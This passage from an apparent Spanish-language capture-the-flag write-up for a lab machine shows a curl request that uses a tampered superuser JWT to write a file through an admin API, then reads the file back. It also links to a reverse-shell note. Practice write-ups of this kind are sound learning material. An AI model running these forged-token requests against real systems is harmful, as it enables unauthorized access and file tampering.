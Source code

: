 Vamos a arreglarla y le vamos a camibar el token

```bash
curl -s -X POST "http://10.10.11.162/api/v1/admin/file/$(echo -n "/tmp/pwned" | base64)" -H 'accept: application/json' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1Mjc3OTkzLCJpYXQiOjE2NTQ1ODY3OTMsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllN2Y3ZDUtZjFkMy00NjM4LWEzNGQtNWU4MTUyNDU0ZjE0IiwiZGVidWciOnRydWV9.SaE7rWih1omJ5dVYpVRQxrrvcd9ro8NxwtrHby4_9z4' -H 'Content-Type: application/json' -d '{"file": "hola chavalito"}'
```

Ahora comprobamos intentando leer el archivo

```bash
❯ sudo ./getFile.sh -f /home/htb/tmp/pwned
[sudo] contraseña para riskoo: 
parse error: Invalid numeric literal at line 1, column 9
no se ha encontrado un valor válido
❯ sudo ./getFile.sh -f /tmp/pwned
hola chavalito

 el nombre del archivo es: /tmp/pwned
```


## Revert shell
[Revertshell](docs/9- Programs atack/know how revert shell.md)

## obtener la contraseña

